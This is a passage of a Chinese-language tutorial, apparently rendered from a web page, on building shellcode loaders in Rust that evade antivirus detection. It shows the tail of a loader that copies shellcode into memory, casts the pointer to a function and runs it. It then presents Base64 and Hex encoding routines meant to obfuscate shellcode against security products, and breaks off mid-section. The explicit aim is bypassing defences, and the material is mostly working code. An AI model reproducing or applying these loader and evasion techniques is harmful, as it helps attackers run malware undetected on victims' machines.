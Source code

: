 ```plain
        if GetLastError() == 0 {
            std::ptr::copy(buffer.as_ptr() as *const u8, ptr as *mut u8, buffer.len());
            let exec = transmute::<*mut c_void, fn()>(ptr);
            exec();
        }
    }
}
```

## Shellcode混淆方式

上面介绍了在Rust中为shellcode申请内存空间和执行shellcode的几种常见的方式，接下来会介绍几种常见的编码和加密混淆方式在Rust中的实现。在实际的shellcode免杀的时候经常需要结合几种混淆方式，或者是自己设计加密混淆方式。

### Base64编码

在Rust中实现base64编码同样需要引入依赖，在`Cargo.toml`文件中添加如下依赖：

```plain
[dependencies]
base64 = "0.20.0"
```

通过下面的代码即可将传入的切片类型的shellcode进行base64编码并返回一段字符串。

```plain
fn b64_enc(shellcode: &[u8]) -> String {
    base64::encode(shellcode)
}
```

通过以下代码即可将得到的字符串解码，并返回Vec数组类型的shellcode。

```plain
fn b64_dec(shellcode:String) -> Vec<u8> {
    base64::decode(shellcode).expect("Error")
}
```

### Hex编码

在Rust中实现Hex编码同样需要引入依赖，在`Cargo.toml`文件中添加如下依赖：

```plain
[dependencies]
hex = "0.4.3"
```

通过下面的代码即可将传入的切片类型的shellcode进行Hex编码并返回一段字符串。

```plain
fn hex_enc(shellcode: &[u8]) -> String {
    hex::encode(shellcode)
}
```

通过以下代码即可将得到的字符串解码，并返回Vec数组类型的shellcode。
